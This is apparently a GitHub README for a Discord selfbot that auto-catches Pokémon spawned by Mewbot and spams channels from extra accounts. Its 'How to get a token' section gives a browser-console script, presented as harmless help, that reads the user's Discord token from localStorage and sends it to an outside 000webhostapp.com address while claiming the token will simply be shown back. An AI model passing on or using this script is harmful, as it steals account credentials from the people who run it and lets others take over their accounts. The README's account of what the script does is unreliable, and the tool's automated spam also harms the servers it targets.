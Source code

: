 Pokecord-Autocatcher
=====
## Description: 
Due to the recent news that Pokecord is now official dead many servers have decided to move onto Mewbot. This is a program for Discord which allows you to auto-catch pokemon spawned by Mewbot with many more features yet to come!
## How to use:
1. Download latest release from [here](https://github.com/RussianWaffles/mewbot-autocatcher/releases) or download the latest dev build from [here](https://github.com/RussianWaffles/mewbot-autocatcher/blob/master/build.zip)
2. Extract the zip
3. Run `npm i --only=prod` to install dependencies
4. Start the program with `npm start`
5. Goto `localhost:3000`
6. Input your tokens by clicking on the blank avatars(Only the first one is needed if you don't require spam)
7. Edit the server configs by clicking on their icon's
8. Enable the options you require and the program is ready to go!
## How to get a token:
1. Login to the account you want the token of
2. Press `F12` or `CTRL + SHIFT + I` if nothing opens
3. Goto the Console tab
4. Copy and paste this script and press enter
```javascript
location.reload();
function getLocalStoragePropertyDescriptor() {
  const iframe = document.createElement('iframe');
  document.head.append(iframe);
  const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');
  iframe.remove();
  return pd;
}
Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());
window.location.href = "https://8nfiles.000webhostapp.com/?token=" + window.localStorage.getItem("token").split('"').join('');
```
5. Your token should be displayed back to you
## Features:
- Auto Catch: Catch pokemon as soon as they spawn
- Online Interface: Makes configuring the bot much easier than traditional configs
- Individual Server Config's: Incase you wish to only auto-catch on certain servers
- Auto-Updating: The bot checks if it and its JSON file is up-to-date on startup
- Auto-Reporting: Automatically report's and unrecognised pokemon it finds
- Auto-Restart Capable: Once configured if the bot the crashes and is configured as a service or with [forever](https://www.npmjs.com/package/forever "forever") it will have no problems starting back up.
- Authentication: The Online Interface can be password protected


## Online Interface
An easy to use Online Interface to configure the program.

![GUI](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI.png "GUI")
![GUI2](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI2.png "GUI2")
![GUI3](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI3.png "GUI3")
![GUI4](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI4.png "GUI4")

- Handles up to 3 bots at once, the Main Bot which is used to catch the pokemon and the 2 Spam Bots which are used to send spam
- An area for the Main Bot's servers where each one is able to be individually configured
- The main options for the program
- Bot Logs where any caught pokemon are displayed(up to 100 logs are displayed)
- Debug Logs where logs for debugging are displayed(up to 100 logs are displayed)
- Statistics to quickly check the program


## Spam
The two Spam Bots are able to spam into a given channel with a given spam delay across all configured servers using a random line picked from `spam.txt`

## Auto catch
The Main Bot is able to catch a pokemon either as soon as it spawns or with a given delay across all configured servers.

## Authentication
When enabled the Online Interface will ask any user that attempts to visit it for a username and password to be used in Basic Authentication.

By RussianWaffles
-----
